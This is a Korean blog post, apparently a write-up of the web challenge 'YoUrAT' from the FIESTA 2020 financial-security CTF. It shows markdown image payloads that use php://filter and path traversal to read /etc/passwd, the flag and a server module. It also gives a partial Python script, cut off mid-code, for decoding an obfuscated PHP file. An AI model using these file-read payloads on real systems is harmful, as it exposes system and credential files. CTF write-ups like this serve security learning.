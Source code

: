 ```yaml
---

layout: post
title: "2020 FIESTA(금융보안원) CTF Write up"
excerpt: "Hard life"
categories: [Web,ctf]
comments: true
---
```


오랜만에 CTF를 참여했다.  금융보안원에서 진행하는 [FIESTA 2020 : 금융보안 위협분석 대회]인데, 대회 랭킹으로는 3위를 취득했다.

N0Named팀에서 참가를 하였고, 팀명도 N0Named로 참가하였다. 

한 문제파일 및 url에 3가지 문제가 겹쳐있는 형식이었고, 모든 문제를 해결했는데, 웹만 wirte up을 작성하려고 한다.

![image-20200926180718292](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20200926180718292.png)

<h3>0x0. YoUrAT
</h3>

Markdown형식으로 note에 글을 작성할 수 있다.  이를 이용해서 코드를 릭할 수 있다.

```markdown
![alt](php://filter/convert.base64-encode/resource=../../../../../../../etc/passwd)
```

이렇게 글을 작성하여 etc/passwd 코드를 릭해오는 것을 확인했다.

```markdown
![alt](php://filter/convert.base64-encode/resource=../../../../../../../flag)
```

이 페이로드로 최상위 디렉터리에서 플래그를 가져온게 1번 정답이었다.

그 다음 이를 이용하여 index.php의 코드를 릭해오고, 해석하면 write.php가 존재하는 것을 확인할 수 있다. 그런데 이 파일은 암호화 되어있어서 이를 복호화하기 위한 방법을 찾던 도중, 

```markdown
![alt](php://filter/convert.base64-encode/resource=/adm1nkyj_guard.so) 
```

이를 통해서 얻은 파일을 ida로 열어보니 암호화 코드가 있었고, 이를 이용하여 디크립트 코드를 작성했다.

```python
import base64
import re
text = """
write.php 코드
"""

check = re.findall("\$_[0-9a-z]*",text)
check.sort(reverse=True)
for i in check:
   text = text.replace(i, "$_"+xor2(i[2:].decode("hex"),"\x21"))

check = re.findall("\'_[0-9a-z]*\'",text)
check.sort(reverse=True)
for i in check:
   text = text.replace(i, "'"+xor2(i[2:-1].decode("hex"),"\x21")+"'")


check = re.findall("\"_[0-9a-z]*\"",text)
check.sort(reverse=True)
for i in check:
   text = text.replace(i, "\""+xor2(i[2:-1].decode("hex"),"\x21")+"\"")

check = re.findall("_[0-9a-z]*\(",text)
check.sort(reverse=True)
```